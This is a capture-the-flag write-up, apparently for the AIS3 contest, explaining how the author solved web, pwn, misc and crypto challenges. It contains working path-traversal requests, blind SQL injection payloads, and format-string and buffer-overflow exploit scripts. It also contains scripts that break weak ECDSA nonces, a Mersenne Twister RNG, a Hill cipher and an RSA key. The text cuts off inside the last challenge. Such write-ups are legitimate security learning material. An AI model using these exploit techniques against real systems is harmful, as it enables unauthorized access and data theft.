






realized i suck so bad so i just gave up midway in and dropped out of top 5 lmfao

# Web
## Tomorin db  🐧
classic path traversal chall:
```go
func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```
[this hacktricks section](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/golang) has our solution:
> In golang, the library net/http usually transforms the path to a canonical one before accessing it:
> - /flag/ -- Is responded with a redirect to /flag
> - /../flag --- Is responded with a redirect to /flag
> - /flag/. -- Is responded with a redirect to /flag\
> However, when the CONNECT method is used this doesn't happen. So, if you need to access some protected resource you can abuse this trick:\
> `curl --path-as-is -X CONNECT http://gofs.web.jctf.pro/../flag`

and thus we execute
`curl --path-as-is -X CONNECT http://chals1.ais3.org:30000/flag`\
flag: **`AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}`**

## Login Screen 1
solved without source so ill keep my solution\
though for context's sake, this is the login SQL query:
```php
$stmt = $db->prepare("SELECT * FROM Users WHERE username = '$username'");
```

we need to login as `admin` to see posts, but it's gated behind a 2FA too\
given credentials `guest:guest`, we can use if the login succeeded or not to do a blind sqli

inputting `admin'OR 1=1--` in name field on login seems to work, so sqli on login's probably more viable

however we still dont have 2FA, so we first we'll leak the table count, which is 3:
```sql
admin' AND (SELECT count(1) FROM sqlite_master WHERE type='table') = 3--
```
and we can leak the table names:
```sql
admin' AND (SELECT ASCII(SUBSTR(name, {character position}, 1)) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET {table index}) = {ascii code}
```
then leak column names:
```sql
admin' AND (SELECT unicode(substr(name, {character position}, 1)) FROM pragma_table_info('{table name}') LIMIT 1 OFFSET {column index}) = {ascii code}
```
we'll get partial database structure:
```
Users
	username
	password
	code
	created_at
sqlite_sequence
posts
	id
	user_id
	content
	created_at
```
but note that the server actually treats **your input as your actual name**, instead of the result of the SQL\
which means your sqli will get in the way (name's `admin'OR 1=1--`, but we need `admin`)\
thus we need to leak the password. but i kinda just guessed it lmao `admin:admin` 

finally we can leak admin's 2FA:
```sql
admin' AND (SELECT unicode(substr((SELECT code FROM Users WHERE username='admin'),1,1))) = {ascii code} -- 
```
which is **`51756447753485459839`**\
after inputting we can see our flag in the 2nd post:\
\
flag: **`AIS3{1.Es55y_SQL_1nJ3ct10n_w1th_2fa_IuABDADGeP0}`**

# Pwn
## Format Number
chal:
```c {hl_lines=8}
void check_format(char *format) {
    for (int i = 0; format[i] != '\0'; i++) {
        char c = format[i];
        if (c == '\n') {
            format[i] = '\0';
            return;
        }
        if (!isdigit(c) && !ispunct(c)) {
            printf("Error format !\n");
            exit(1);
        }
    }
}

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    srand(time(NULL));
    int number = rand();
    int fd = open("/home/chal/flag.txt", O_RDONLY);
    char flag[0x100] = {0};
    read(fd, flag, 0xff);
    close(fd);
    printf(flag)
    
    char format[0x10] = {0};
    printf("What format do you want ? ");
    read(0, format, 0xf);
    check_format(format);

    char buffer[0x20] = {0};
    strcpy(buffer, "Format number : %3$");
    strcat(buffer, format);
    strcat(buffer, "d\n");
    printf(number)
    printf(buffer, "Welcome", "~~~", number);

    return 0;
}
```
`check_format` only checks if input consists solely of digits and punctuations, so we can achieve arbitrary stack read by `;%n$`\
we can brute the index to leak the flag loaded on the stack
```py
from pwn import *
from Crypto.Util.number import *
import time

ans=[]
for i in range(100):
    #p = process('./chal')
    p = remote('chals1.ais3.org', 50960)

    p.sendlineafter(b'? ', (';%' +str(i) + '$').encode())
    p.recvuntil(b'Format number : %;')
    n = p.recvline().strip().decode()

    try:
        ans.append(long_to_bytes(int(n)))
    except:
        ans.append(b'')
    p.close()
    time.sleep(0.5)

print(b''.join(ans))
```
output:
```py
b'Vd@JVY\xf0F\x16F\xafd\x002JJR\x03$7%;\x00\x00\x00mroFn taebmu : r;$3%$61%\nd\x00\xfe\xffAIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\ny\xcf\x00\x00\x00\x00\x00\x00\x01'
```
flag: **`AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}`**

## Welcome to the World of Ave Mujica🌙 
asks us for our name and its length\
\
lets disassemble:
```c {hl_lines=19}
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[143]; // [rsp+0h] [rbp-A0h] BYREF
  char prompt_response[8]; // [rsp+8Fh] [rbp-11h] BYREF
  unsigned __int8 name_len; // [rsp+97h] [rbp-9h]
  char *v7; // [rsp+98h] [rbp-8h]

  // ...
  fgets(prompt_response, 8, stdin);
  v7 = strchr(prompt_response, 10);
  if ( v7 )
    *v7 = 0;
  if ( strcmp(prompt_response, "yes") )
  {
    puts(&byte_402AE8);
    exit(1);
  }
  printf(&byte_402B20);
  name_len = read_int8();
  printf(&byte_402B41);
  read(0, buf, name_len);
  return 0;
}
```
lets inspect `read_int8`:
```c {hl_lines=[8,13]}
__int64 read_int8()
{
  char buf[4]; // [rsp+8h] [rbp-8h] BYREF
  int input; // [rsp+Ch] [rbp-4h]

  read(0, buf, 4uLL);
  input = atoi(buf);
  if ( input > 127 )
  {
    puts(&byte_402A38);
    exit(1);
  }
  return (unsigned int)input;
}
```
notice our length input can go negative, and that its casted to unsigned int after\
which means if we input `-1`, it'll actually become `4294967295`\
since we control read length, we can buffer overflow to overwrite RIP!
```py
from pwn import *
import base64

p = remote('chals1.ais3.org', 60140)

p.recvline()
p.sendline(b'yes')
p.sendlineafter(b': ', b'-1')

payload = b'A' * 168 + p64(0x401256)
p.sendlineafter(b': ', payload)

p.sendline(b'cat flag')
p.recvuntil(b'AIS3')
ans = p.recvline()
print(base64.b64encode(ans)) #unicode chars doesnt get sent properly
```
flag: **`AIS{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._8433ec16cb656784bb6b668165e9895b}`**

# Misc
## Ramen CTF
> 我在吃 CTF，喔不對，拉麵，但我忘記我在哪間店吃了．．．，請幫我找出來\
> (P.S. FlagFormat: AIS3{google map 上的店家名稱:我點的品項在菜單上的名稱})\
> Author: whale120\


on the right side we can see a QR code in the receipt, so i just scanned it with LINE\
\
order and shop name leak! except that shop name doesn't match google maps\
getting [the right name](https://www.google.com/maps/place/%E6%A8%82%E5%B1%B1%E6%BA%AB%E6%B3%89%E6%8B%89%E9%BA%B5/data=!4m2!3m1!1s0x0:0x508db800f782b2ca?sa=X&ved=1t:2428&ictx=111) should be trivial though\
flag: **`AIS3{樂山溫泉拉麵:蝦拉麵}`**

(i didn't know i could just inspect the receipt after scanning so i just bruted around 30 wrong flags LOL)

## AIS3 Tiny Server - Web/Misc
we are given a modified ver. of [7890/tiny-web-server](https://github.com/7890/tiny-web-server) that basically just lists directory files\
on the page /index.html reads:
> Hidden secrets lie above so high,\
> Where root directory holds treasures you can spy.\
> File inclusion shows the way,\
> To read the flag without delay.

if we go to / we'll be greeted with:
```
index.html	2025-05-22 16:22	4.7K
```
nice! directory traversal\
the rest is trivial:
```zsh
❯ curl --path-as-is http://chals1.ais3.org:20366/../../../
...
<tr><td><a href="home/">home/</a></td><td>2022-04-18 10:28</td><td>[DIR]</td></tr>
<tr><td><a href="boot/">boot/</a></td><td>2022-04-18 10:28</td><td>[DIR]</td></tr>
<tr><td><a href="readable_flag_ZfIcOW4iawUOxB6SFrkC0pGfn506zipy">readable_flag_ZfIcOW4iawUOxB6SFrkC0pGfn506zipy</a></td><td>2025-05-30 05:18</td><td>54</td></tr>
<tr><td><a href=".dockerenv">.dockerenv</a></td><td>2025-05-30 05:18</td><td>0</td></tr>
<tr><td><a href="readflag">readflag</a></td><td>2025-05-22 16:22</td><td>884.1K</td></tr>
❯ curl --path-as-is http://chals1.ais3.org:20366/../../../readable_flag_ZfIcOW4iawUOxB6SFrkC0pGfn506zipy
AIS3{tInY_we8_S3rV3R_wiTH_fIle_8r0Ws1n9_4S_@_Fe4TUre}
```
flag: **`AIS3{tInY_we8_S3rV3R_wiTH_fIle_8r0Ws1n9_4S_@_Fe4TUre}`**

## Welcome
> Copy & Paste ?\
> You don't know how to copy & paste ???\
> Let me teach you : Ctrl + c & Ctrl + v 😮‍💨😮‍💨😮‍💨

tfw every single character is wrapped in a span\
surely we just select from below, ctrl+c then clean!\
\
copied: `AIS3{This_Is_Just_A_Fake_Flag_~~}`\
just kidding! its in the content of the ::before pseudo-elements\
\
dont be lazy and type it all out\
flag: **`AIS3{Welcome_And_Enjoy_The_CTF_!}`**

# Crypto
## SlowECDSA
chal:
```py
import hashlib, os
from ecdsa import SigningKey, VerifyingKey, NIST192p
from ecdsa.util import number_to_string, string_to_number
from Crypto.Util.number import getRandomRange
from flag import flag

FLAG = flag

class LCG:
    def __init__(self, seed, a, c, m):
        self.state = seed
        self.a = a
        self.c = c
        self.m = m

    def next(self):
        self.state = (self.a * self.state + self.c) % self.m
        return self.state

curve = NIST192p
sk = SigningKey.generate(curve=curve)
vk = sk.verifying_key
order = sk.curve.generator.order()
lcg = LCG(seed=int.from_bytes(os.urandom(24), 'big'), a=1103515245, c=12345, m=order)

def sign(msg: bytes):
    h = int.from_bytes(hashlib.sha1(msg).digest(), 'big') % order
    k = lcg.next()
    R = k * curve.generator
    r = R.x() % order
    s = (pow(k, -1, order) * (h + r * sk.privkey.secret_multiplier)) % order
    return r, s

def verify(msg: str, r: int, s: int):
    h = int.from_bytes(hashlib.sha1(msg.encode()).digest(), 'big') % order
    try:
        sig = number_to_string(r, order) + number_to_string(s, order)
        return vk.verify_digest(sig, hashlib.sha1(msg.encode()).digest())
    except:
        return False

example_msg = b"example_msg"
print("==============SlowECDSA===============")
print("Available options: get_example, verify")

while True:
    opt = input("Enter option: ").strip()

    if opt == "get_example":
        print(f"msg: {example_msg.decode()}")
        example_r, example_s = sign(example_msg)
        print(f"r: {hex(example_r)}")
        print(f"s: {hex(example_s)}")

    elif opt == "verify":
        msg = input("Enter message: ").strip()
        r = int(input("Enter r (hex): ").strip(), 16)
        s = int(input("Enter s (hex): ").strip(), 16)

        if verify(msg, r, s):
            if msg == "give_me_flag":
                print("✅ Correct signature! Here's your flag:")
                print(FLAG.decode())
            else:
                print("✔️ Signature valid, but not the target message.")
        else:
            print("❌ Invalid signature.")

    else:
        print("Unknown option. Try again.")
```
our goal is to send `give_me_flag` w/ a forged signature\
we know the LCG params:
```
a=1103515245
c=12345
m=6277101735386680763835789423176059013767194773182842284081 (NIST192p's curve generator order is fixed)
```
option `get_example` gives us `r`, `s`, where:

$$
\begin{aligned}
h &= \text{SHA1("example\_msg")} \newline
s_i &= k_i^{-1} (h + r_i \cdot x) \pmod{m} \newline
\rightarrow k_i &= s_i^{-1} (h + r_i \cdot x) \pmod{m}
\end{aligned}
$$
we want to know `k` and `x`, so we'll get 2 examples:

$$
\begin{aligned}
k_1 &= s_1^{-1} (h + r_1 \cdot x) \pmod{m} \newline
k_2 &= s_2^{-1} (h + r_2 \cdot x) \pmod{m} \newline
\end{aligned}
$$
$$
\begin{aligned}
\because\quad & k_2 = a \cdot k_1 + c \newline
\therefore\quad & a \cdot k_1 + c = s_2^{-1} (h + r_2 \cdot x)
\end{aligned}
$$
$$
\begin{aligned}
\rightarrow a \cdot s_1^{-1} (h + r_1 \cdot x) + c &= s_2^{-1} (h + r_2 \cdot x) \newline
\rightarrow h (a \cdot s_1^{-1} - s_2^{-1}) + c &= x(s_2^{-1} \cdot r_2 - a \cdot s_1^{-1} \cdot r_1)
\end{aligned}
$$
$$
x = (h (a \cdot s_1^{-1} - s_2^{-1}) + c) \cdot (s_2^{-1} \cdot r_2 - a \cdot s_1^{-1} \cdot r_1)^{-1}
$$
after recovering `x` we can also recover `k`\
then we just have to pick one of our two examples, and forge a signed message with its `r` and `s`
```py
import hashlib
from Crypto.Util.number import inverse
from pwn import *

a=1103515245
c=12345
m=6277101735386680763835789423176059013767194773182842284081

p = remote('chals1.ais3.org', 19000)
p.recvline()
p.recvline()

p.sendlineafter(b': ', b'get_example')
p.recvline()
r1 = int(p.recvline().split()[-1], 16)
s1 = int(p.recvline().split()[-1], 16)

p.sendlineafter(b': ', b'get_example')
p.recvline()
r2 = int(p.recvline().split()[-1], 16)
s2 = int(p.recvline().split()[-1], 16)

h = int.from_bytes(hashlib.sha1(b'example_msg').digest(), 'big') % m
x = (h*(a*inverse(s1, m) - inverse(s2, m)) + c) * inverse((inverse(s2, m) * r2 - a * inverse(s1, m) * r1), m) % m

k1 = (inverse(s1, m) * (h + r1 * x)) % m
ct = int.from_bytes(hashlib.sha1(b'give_me_flag').digest(), 'big') % m
s = (pow(k1, -1, m) * (ct + r1 * x)) % m

p.sendlineafter(b': ', b'verify')
p.sendlineafter(b': ', b'give_me_flag')
p.sendlineafter(b': ', hex(r1).encode())
p.sendlineafter(b': ', hex(s).encode())
p.interactive()
```
output:
```
[+] Opening connection to chals1.ais3.org on port 19000: Done
[*] Switching to interactive mode
✅ Correct signature! Here's your flag:
AIS3{Aff1n3_nounc3s_c@N_bE_broke_ezily...}
```
flag: **`AIS3{Aff1n3_nounc3s_c@N_bE_broke_ezily...}`**

## Stream
chal:
```py
import random
import os
from hashlib import sha512
from flag import flag

def hexor(a: bytes, b: int):
    return hex(int.from_bytes(a)^b**2)

for i in range(80):
    print(hexor(sha512(os.urandom(True)).digest(), random.getrandbits(256)))

print(hexor(flag, random.getrandbits(256)))
```
observations:
- `os.urandom(True)` only gives **one byte**
- `random.getrandbits(256)` is synonymous with 8 times `random.getrandbits(32)`\
which means we have 80*8=**640 32-bit numbers**, enough for [randcrack](https://github.com/tna0y/Python-random-module-cracker)

to retrieve the rand bits we can just brute the urandom, and check if the resulting number has a square root (a.k.a `b`)
```py
import hashlib
from Crypto.Util.number import *
from gmpy2 import isqrt
from randcrack import RandCrack

shas = []
for i in range(256):
    h = hashlib.sha512(bytes([i])).digest()
    shas.append(int.from_bytes(h))

with open('output.txt', 'r') as file:
    lines = [line.strip() for line in file]
    
bis = []
for line in lines[:-1]: #last one is flag ciphertext
    line_int = int(line, 16)
    
    for sha in shas:
        candidate = line_int ^ sha
        root = isqrt(candidate)
        if candidate == root ** 2:
            bis.append(root)
            break

# note that the 8 32-bit chunks in random.getrandbits(256) is in reverse reading order
# [chunk7][chunk6]...[chunk1][chunk0]
# so we parse it to normal order
twister_outputs = []
for bi in bis:
    bi = long_to_bytes(bi)
    tmp = []
    
    for i in range(0, 32, 4):
        chunk = bi[i:i+4]
        tmp.append(bytes_to_long(chunk))
    tmp = tmp[::-1]
    
    for i in range(8):
        twister_outputs.append(tmp[i])

rc = RandCrack()
for num in twister_outputs[:624]:
    rc.submit(num)

# remember we're offsetted by 640 - 624 = 16 
for i in range(16):
    rc.predict_getrandbits(32)

# combine chunks in reverse w/ a hacky way because idk the proper way
predicted = ''
for i in range(8):
    nxt = rc.predict_getrandbits(32)
    predicted = hex(nxt) + ' ' + predicted
predicted = '0x' + predicted.replace('0x', '').replace(' ', '')
WTF = int(predicted, 16)

flag = "0x1a95888d32cd61925d40815f139aeb35d39d8e33f7e477bd020b88d3ca4adee68de5a0dee2922628da3f834c9ada0fa283e693f1deb61e888423fd64d5c3694"
flag = int(flag, 16)
flag ^= WTF ** 2
print(long_to_bytes(flag))
```
flag: **`AIS3{no_more_junks...plz}`**

## Hill
chal:
```py {hl_lines=[25,26,27,28]}
import numpy as np

p = 251
n = 8

def gen_matrix(n, p):
    while True:
        M = np.random.randint(0, p, size=(n, n))
        if np.linalg.matrix_rank(M % p) == n:
            return M % p

A = gen_matrix(n, p)
B = gen_matrix(n, p)

def str_to_blocks(s):
    data = list(s.encode())
    length = ((len(data) - 1) // n) + 1
    data += [0] * (n * length - len(data))  # padding
    blocks = np.array(data, dtype=int).reshape(length, n)
    return blocks

def encrypt_blocks(blocks):
    C = []
    for i in range(len(blocks)):
        if i == 0:
            c = (A @ blocks[i]) % p
        else:
            c = (A @ blocks[i] + B @ blocks[i-1]) % p
        C.append(c)
    return C

flag = "AIS3{Fake_FLAG}"
blocks = str_to_blocks(flag)
ciphertext = encrypt_blocks(blocks)

print("Encrypted flag:")
for c in ciphertext:
    print(c)

t = input("input: ")
blocks = str_to_blocks(t)
ciphertext = encrypt_blocks(blocks)
for c in ciphertext:
    print(c)
```
our goal is obviously leak A and B at once with one input\
we have the relation:

$$
\begin{aligned}
C_k &= A \times blocks_k \pmod{p} \newline
C_{k+1} &= A \times blocks_{k+1} + B \times blocks_{k} \pmod{p}
\end{aligned}
$$
we can leak A using **basis vectors**, and zeroing every (k+1)th block out to leak B too\
finally, use A^-1 to recover flag blocks
```py
from pwn import *
import numpy as np
import sympy as sp

p, n = 251, 8

def recv_matrix(row_cnt):
    res = np.zeros((row_cnt, n), dtype=int)
    for i in range(row_cnt):
        l = r.recvline().decode().strip()
        res[i] = list(map(int, l.strip()[1:-1].split()))
    return res

r = remote('chals1.ais3.org', 18000)

r.recvline()
ct = recv_matrix(5)

payload = bytearray()
for k in range(n):
    for i in range(n):
        payload.append(1 if i == k else 0)
    payload.extend(b'\x00' * n)

r.sendlineafter(b': ', bytes(payload))
c = recv_matrix(16)

A = np.stack([c[2*k] for k in range(n)], axis=1) % p
B = np.stack([c[2*k+1] for k in range(n)], axis=1) % p

A_inv = np.array(sp.Matrix(A.tolist()).inv_mod(p), dtype=int) % p

pt = []
for i, cblk in enumerate(ct):
    if i == 0:
        m = A_inv.dot(cblk) % p
    else:
        m = A_inv.dot((cblk - B.dot(pt[i-1])) % p) % p
    pt.append(m)

print(''.join(chr(x) for block in pt for x in block))
```
flag: **`AIS3{b451c_h1ll_c1ph3r_15_2_3z_f0r_u5}`**

## Random_RSA
chal:
```py
# chall.py
from Crypto.Util.number import getPrime, bytes_to_long
from sympy import nextprime
from gmpy2 import is_prime

FLAG = b"AIS3{Fake_FLAG}"

a = getPrime(512)
b = getPrime(512)
m = getPrime(512)
a %= m
b %= m
seed = getPrime(300)

rng = lambda x: (a*x + b) % m

def genPrime(x):
    x = rng(x)
    k=0
    while not(is_prime(x)):
        x = rng(x)
    return x

p = genPrime(seed)
q = genPrime(p)

n = p * q
e = 65537
m_int = bytes_to_long(FLAG)
c = pow(m_int, e, n)

# hint
seed = getPrime(300)
h0 = rng(seed)
h1 = rng(h0)
h2 = rng(h1)

with open("output.txt", "w") as f:
    f.write(f"h0 = {h0}\n")
    f.write(f"h1 = {h1}\n")
    f.write(f"h2 = {h2}\n")
    f.write(f"M = {m}\n")
    f.write(f"n = {n}\n")
    f.write(f"e = {e}\n")
    f.write(f"c = {c}\n")
```
we have the below affine relations, and we want `a` and `b`:

$$
\begin{aligned}
h_0 &= a \cdot seed + b \pmod{m} \newline
h_1 &= a \cdot h_0 + b \pmod{m} \newline
h_2 &= a \cdot h_1 + b \pmod{m} \newline
\end{aligned}
$$
which is trivial:
$$
\begin{aligned}
h_2 - h_1 &= a \cdot (h_1 - h_0) \newline
a &= (h_2 - h_1) \cdot (h_1 - h_0)^{-1} \newline
b &= h_1 - a \cdot h_0
\end{aligned}
$$
recovering `p`, `q` however, is not. let's simplify:

$$
\begin{aligned}
p &= \text{rng(rng(...(rng(seed))...))} \newline
&= \underbrace{a(\cdots (a}_{k} \cdot \text{seed} + b) + b \cdots) + b \qquad (k \in \mathbb{N}) \newline
&= a^k \cdot \text{seed} + \frac{b \cdot (a^k - 1)}{a-1}
\end{aligned}
$$

$$
\text{let}\ A_k = a^k, \qquad B_k = \frac{b \cdot (a^k - 1)}{a-1}
$$

$$
\begin{aligned}
\rightarrow p &= A_k \cdot \text{seed} + B_k \newline
\text{similarly}\ q &= A_{k+l} \cdot \text{seed} + B_{k+l} \qquad (l\in \mathbb{N})
\end{aligned}
$$

$$
\begin{aligned}
n &= p \cdot q \newline
&= (A_k \cdot \text{seed} + B_k)(A_{k+l} \cdot \text{seed} + B_{k+l}) \newline
0 &= A_{2k+l} \cdot \text{seed}^2 + (A_k B_{k+l} + A_{k+l} B_k) \cdot \text{seed} + B_k B_{k+l} - n
\end{aligned}
$$
it's a quadratic! we can then find the seed by bruting iteration count (`k`, `l`), and the quadratic formula
```py
from Crypto.Util.number import *
from itertools import product
from tqdm import tqdm

# https://gist.github.com/nakov/60d62bdf4067ea72b7832ce9f71ae079
def legendre_symbol(a, p):
	ls = pow(a, (p - 1) // 2, p)
	return -1 if ls == p - 1 else ls

def modular_sqrt(a, p):
    if legendre_symbol(a, p) != 1: return 0
    elif a == 0: return 0
    elif p == 2: return p
    elif p % 4 == 3: return pow(a, (p + 1) // 4, p)

    s = p - 1
    e = 0
    while s % 2 == 0:
        s //= 2
        e += 1

    n = 2
    while legendre_symbol(n, p) != -1:
        n += 1

    x = pow(a, (s + 1) // 2, p)
    b = pow(a, s, p)
    g = pow(n, s, p)
    r = e

    while True:
        t = b
        m = 0
        for m in range(r):
            if t == 1:
                break
            t = pow(t, 2, p)

        if m == 0:
            return x

        gs = pow(g, 2 ** (r - m - 1), p)
        g = (gs * gs) % p
        x = (x * gs) % p
        b = (b * g) % p
        r = m

h0 = 2907912348...
h1 = 5219570204...
h2 = 3292606373...
m = 9231171733...
n = 2059932812...
e = 65537
c = 1385939095...

a = ((h2 - h1) * inverse(h1 - h0, m)) % m
b = (h1 - a * h0) % m

test = 1000
arrA, arrB = [1], [0]
for i in range(1, 3*test+1):
	arrA.append((arrA[i-1] * a) % m)
	arrB.append((arrB[i-1] + arrA[i-1] * b) % m)

p, q = -1, -1
for k, l in tqdm(product(range(1, test+1), range(1, test+1))):
	A = arrA[2*k+l] % m
	B = (arrA[k]*arrB[k+l] + arrA[k+l]*arrB[k]) % m
	C = (arrB[k]*arrB[k+l] - n) % m
	
	win = False
	for sign in [1, -1]:
		if legendre_symbol(B**2 - 4*A*C, m) == -1:
			continue
	
		seed = (-B + sign * modular_sqrt(B**2 - 4*A*C, m)) * inverse(2*A, m)
		testp = (arrA[k]*seed + arrB[k]) % m
		testq = (arrA[k+l]*seed + arrB[k+l]) % m
		if n % testp != 0 or n % testq != 0:
			continue
		
		win = True
		p, q = testp, testq
	if win:
		break

if p == -1 or q == -1:
	print("epic fail")
	exit()

phi = (p-1)*(q-1)
d = inverse(e, phi)
pt = pow(c, d, n)
print(long_to_bytes(pt))
```
output:
```
204it [00:01, 136.78it/s]
b'AIS3{1_d0n7_r34lly_why_1_d1dn7_u53_637pr1m3}'
```
flag: **`AIS3{1_d0n7_r34lly_why_1_d1dn7_u53_637pr1m3}`**

## Happy Happy Factoring
chal:
```py
import random
from functools import reduce
from gmpy2 import is_prime

prime_list = [num for num in range(3, 5000) if is_prime(num)]

def get_william_prime():
    while True:
        li = [2] + random.choices(prime_list, k=85)
        n = reduce(lambda x, y: x * y, li)
        if is_prime(n - 1):
            return n - 1

def get_pollard_prime():
    while True:
        li = [2] + random.choices(prime_list, k=85)
        n = reduce(lambda x, y: x * y, li)
        if is_prime(n + 1):
            return n + 1

def get_fermat_prime():
    a = random.getrandbits(1024)
    if a % 2 != 0:
        a += 1
    check = 0
    for offset in range(random.getrandbits(512) | 1, 1 << 512 + 1, 2):
        if (not check & 1) and is_prime(a + offset):
            check |= 1
            p = a + offset
        if (not check & 2) and is_prime(a - offset):
            check |= 2
            q = a - offset
        if check == 3:
            return p, q

